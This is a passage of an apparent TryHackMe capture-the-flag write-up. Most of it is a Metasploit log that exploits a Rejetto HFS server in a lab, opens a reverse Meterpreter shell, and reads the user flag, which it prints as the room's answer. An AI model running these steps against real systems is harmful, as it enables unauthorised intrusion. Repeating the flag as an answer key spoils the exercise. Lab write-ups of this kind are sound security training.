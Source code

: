 ```use kali tryhackme because doesn't work with my vpn
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.100.38     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

*lhost here is default*
msf5 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.10.24.125
rhosts => 10.10.24.125
msf5 exploit(windows/http/rejetto_hfs_exec) > set rport 8080
rport => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.100.38:4444 
[*] Using URL: http://0.0.0.0:8080/2DxfeX
[*] Local IP: http://10.10.100.38:8080/2DxfeX
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /2DxfeX
[*] Sending stage (176195 bytes) to 10.10.24.125
[*] Meterpreter session 1 opened (10.10.100.38:4444 -> 10.10.24.125:49275) at 2022-08-25 18:12:40 +0000
[!] Tried to delete %TEMP%\lrVQSgCCUL.vbs, unknown result
[*] Sending stage (176195 bytes) to 167.94.145.57
[*] Server stopped.


meterpreter > search -f user.txt
Found 1 result...
    c:\Users\bill\Desktop\user.txt (70 bytes)
meterpreter > cat c:\Users\bill\Desktop\user.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > cat "c:\Users\bill\Desktop\user.txt"
��b04763b6fcf51fcd7c13abc7db4fd365

```

Use Metasploit to get an initial shell. What is the user flag? *b04763b6fcf51fcd7c13abc7db4fd365*

###  Privilege Escalation 


